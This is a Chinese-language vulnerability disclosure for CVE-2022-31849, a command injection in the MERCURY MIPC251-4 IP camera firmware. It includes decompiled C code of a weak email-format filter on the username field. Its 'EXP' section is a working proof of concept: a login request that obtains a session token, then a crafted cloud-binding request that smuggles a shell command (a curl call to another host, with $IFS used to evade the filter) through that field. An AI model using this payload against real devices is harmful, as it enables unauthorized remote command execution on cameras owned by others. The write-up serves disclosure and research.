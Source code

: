 # MERCURY MIPC251-4 存在命令注入漏洞

**漏洞厂商**: MERCURY

**厂商官网**: https://www.mercurycom.com.cn/

**影响产品**: MIPC251-4

**影响产品版本**: V2.0(20200608)

**固件链接**: https://service.mercurycom.com.cn/download/202007/MIPC251-4%20V2.0%E5%8D%87%E7%BA%A7%E8%BD%AF%E4%BB%B620200608_2.0.21.zip

**发现者**: [SkYe231](mailto:skye231@foxmail.com)@Hillstone

**CVE**:  CVE-2022-31849

## 漏洞描述

水星 MIPC251-4 存在远程命令执行，远程攻击者可以通过精心构造的数据包绕过限制，实现远程命令执行。

## 漏洞详情

以邮箱名作为 username 的核心过滤规则，规则仅对邮箱格式进行一些过滤（具体看代码注释），并没有对特殊符号进行过滤，存在注入的机会。

> file:/usr/bin/dsd

```c
/* 期待返回值1 */

int FUN_00024aa4(byte *param_1)

{
  size_t sVar1;
  char *pcVar2;
  int iVar3;
  
                    /* 账号为空 */
  if (param_1 == (byte *)0x0) {
    return 0;
  }
                    /* 长度为0 */
  sVar1 = strlen((char *)param_1);
  if (sVar1 == 0) {
    return 0;
  }
                    /* 限制长度<129 */
  if ((int)sVar1 < 129) {
                    /* 匹配出@ */
    pcVar2 = strchr((char *)param_1,L'@');
                    /* 没有匹配项 */
    if (pcVar2 == (char *)0x0) {
      return 0;
    }
                    /* 是否以@结尾 */
    if (param_1[sVar1 - 1] != 0x40) {
                    /* 是否以@开头 */
      iVar3 = *param_1 - 0x40;
      if (iVar3 != 0) {
        iVar3 = 1;
      }
      return iVar3;
    }
  }
  return 0;
}
```

## EXP

1. 登录后台获取 stok

    ```
    POST / HTTP/1.1
    Host: 192.168.0.103
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:100.0) Gecko/20100101 Firefox/100.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/json; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 73
    Origin: http://192.168.0.103
    Connection: close
    Referer: http://192.168.0.103/
    
    {"method":"do","login":{"username":"{your_name}","password":"{your_password}"}}
    ```

2. 发送云账号登录包，触发远程命令执行

    > 根据实际情况替换
    >
    > Stok:05173d0162e8c77387fa1bbc12b2fa62
    >
    > Command:`curl$IFS-o-$IFS'http://192.168.0.101:9999/skye231'`
    
    ```
    POST /stok=05173d0162e8c77387fa1bbc12b2fa62/ds HTTP/1.1
    Host: 192.168.0.103
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:100.0) Gecko/20100101 Firefox/100.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/json; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 147
    Origin: http://192.168.0.103
    Connection: close
    Referer: http://192.168.0.103/
    
    {"cloud_config":{"bind":{"username":"\"}';curl$IFS-o-$IFS'http://192.168.0.101:9999/skye231';'{\"@mrskye.com","password":"admin123"}},"method":"do"}
    ```
    
    

